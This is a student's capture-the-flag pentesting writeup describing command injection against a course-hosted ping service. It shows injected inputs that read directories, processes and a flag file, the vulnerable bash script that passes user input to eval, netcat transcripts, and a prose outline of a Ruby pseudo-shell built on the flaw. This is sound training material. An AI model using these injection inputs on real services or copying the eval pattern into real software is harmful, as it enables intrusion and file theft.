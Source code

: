 # Writeup 2 - Pentesting

Name: Marco Roxas
Section: 0101

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement: Marco Roxas

## Assignment Writeup

### Part 1 (45 pts)

In summary, the steps taken were:

- Experimented with accepted input (ip address, eg, 157.230.179.99, 8.8.8.8, localhost)
- Experimented with the semicolon as it's a common command line injection technique (eg, ;ls, ;whoami)
- Tried ;ls home (led to flag)
- Tried ;ps aux (led to opt/container_startup.sh)

By starting with an IP address to see the response and then experimenting with different inputs (especially the semicolon, which delimits a command and starts a new one) and corresponding responses, it became apparent that the input was being run as part of the ping command. After some experiments the IP address was dropped and just the semicolon was typed and then the command. Some commands I tried were ls and whoami.

But it was odd at first because the connection would time out and it wasn't obvious that spaces were allowed in the input. I initially thought that only single keywords were allowed. So I tried various quote characters and double-dashes to get around to what I thought was a single-keyword limitation. Multiple commands were tried as well, separated by varying spaces, but with not much luck.

Fortunately I realized I could include spaces (which overcame a serious limitation) and was able to look in the /home directory and cat the flag.

  Good! Here's your flag: CMSC389R-{p1ng_as_a_$erv1c3}

Just by habit I tried ps aux and saw a script running. Not knowing what it was (I wanted to know what was in opt first) I did a find opt and cat the script, which showed how the ping script. It appears that this is the script behind the service, somehow the echo commands are redirected to the remote client and the read is taken from the client.

~~~~
#!/bin/bash

function quit {
        exit
}

echo "~~~~ WATTSAMP ENERGY ~~~~"

echo "Network Administration Panel  --  Uptime Monitor "
echo -n "Enter IP address: "
read -t 5 input || quit
>&2 echo "[$(date)] INPUT: $input"

cmd="ping -w 5 -c 2 $input"
output=$(eval $cmd)

echo "$output"
~~~~

To address this vulnerability the input can be whitelisted as a valid ip address before running the ping command.

A brief transcript is included below:

~~~~
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;ls           ;ls home

Ncat: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;find home
home
home/flag.txt


Ncat: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;cat home/flag.txt
Good! Here's your flag: CMSC389R-{p1ng_as_a_$erv1c3}


Ncat: Broken pipe.
$
at: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1 10.5  0.0  18376  2892 ?        Ss   17:11   0:00 /bin/bash /opt/container_startup.sh /bin/bash
root         7  0.0  0.0  18376  1832 ?        S    17:11   0:00 /bin/bash /opt/container_startup.sh /bin/bash
root         9  0.0  0.0  34400  2860 ?        R    17:11   0:00 ps aux


Ncat: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;find opt
opt
opt/container_startup.sh


Ncat: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;cat opt/c*
#!/bin/bash

function quit {
        exit
}

echo "~~~~ WATTSAMP ENERGY ~~~~"

echo "Network Administration Panel  --  Uptime Monitor "
echo -n "Enter IP address: "
read -t 5 input || quit
>&2 echo "[$(date)] INPUT: $input"

cmd="ping -w 5 -c 2 $input"
output=$(eval $cmd)

echo "$output"


Ncat: Broken pipe.
~~~~

### Part 2 (55 pts)

A short ruby script was written to leverage the command-line injection vulnerability.

The script prints a menu of options to drop into a shell or download files. The shell is implemented as a loop that reads the command the user wishes to run, and then opens a network connection, runs it via command-line injection, and then presents the output to the user. The download function is implemented similarly except that the cat command is run and the resulting output is captured to a file.

The user's current directory had to be remembered between sessions of the shell because the session is essentially stateless. A class CdDir was created to hold this current directory. Each command is prefixed by a cd command before the user's command.

The script can be run as ./shell.rb under any environment with Ruby 2.x.
